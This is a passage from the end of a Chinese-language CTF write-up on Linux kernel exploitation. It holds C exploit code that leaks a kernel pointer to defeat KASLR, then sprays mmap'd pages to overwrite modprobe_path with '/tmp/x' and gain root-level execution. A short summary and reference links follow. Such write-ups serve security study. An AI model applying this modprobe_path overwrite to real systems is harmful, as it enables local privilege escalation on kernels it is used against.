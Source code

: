 ```c
        if(((unsigned long long*)tmp_buf1)[i] > 0xffffffff00000000ull){
            printf("leak: %p at offset %d\n", ((long long*)tmp_buf1)[i],i);
            printf("offset: %p\n",(((long long*)tmp_buf1)[i] & 0xfff ));
            if((((long long*)tmp_buf1)[i] & 0xfff )== 0x850){
                printf("find kernel base!\n");
                kernel_base = ((unsigned long long*)tmp_buf1)[i] - 0x4408850 + 0x3e00000;
                kernel_offset = kernel_base - 0xFFFFFFFF81000000;
                break;
            }
        }
    }
    printf("kernel_base = %p\n",kernel_base);
    printf("kernel offset = %p\n",kernel_offset);
    size_t modprobe_path = 0xFFFFFFFF831D8CE0 + kernel_offset;
    size_t modprobe_path_page = modprobe_path & 0xfffffffffffff000;
    size_t address = &modprobe_path_page;
    edit(&address);
    // mmap a lot, have to spray or will fail
    for(int i=0;i<200;i++){
        page_addresses[i] = (size_t)mmap(0,0x1000*8,PROT_READ|PROT_WRITE,MAP_SHARED,pfds[i],0);
    }
    memcpy(tmp_x,"/tmp/x",0x10);
    for (int i = 0; i < 200; i++){
        memcpy((void*)page_addresses[i] + 0xce0,tmp_x,0x10); // edit the kernel address at the same time
    }
    // trigger
    get_flag();
    return 0;
}

```

## 总结
可以 mark 一下这个任意写的方法 ~    
快春节了，新年快乐吖 ~  
## reference
总体思路参考较多：https://www.ctfiot.com/211007.html     
https://vul.360.net/archives/391     
https://blingblingxuanxuan.github.io/2023/02/06/230206-rwctf2023-digging-into-kernel-3/     
https://blingblingxuanxuan.github.io/2023/04/01/230401-n1ctf2022-pwn-praymoon/      
